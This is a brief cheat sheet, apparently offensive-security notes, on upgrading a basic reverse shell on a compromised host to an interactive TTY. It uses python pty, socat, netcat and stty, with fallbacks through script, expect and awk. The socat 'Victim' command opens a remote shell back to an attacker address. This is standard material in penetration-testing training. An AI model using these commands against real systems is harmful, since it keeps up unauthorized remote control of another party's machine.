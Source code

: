 Upgrading from a 'dumb' shell to a fully interactive shell to prevent losing a shell from bad commands hanging or killing the connection with 'Ctrl-C'.

Other drawbacks
* Incorrect SIGINT handling
* Certain commands don't work (su, vi, nano, ssh)
* **No tab complete**
* no STDERR

# Three Methods
Reference: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
## Python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## netcat
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# No Python?
## Script
```
SHELL=/bin/bash script -q /dev/null
```

## expect
```
expect -c 'spawn bash; interact'
```

## awk
```
awk 'BEGIN {system("/bin/bash")}'
```

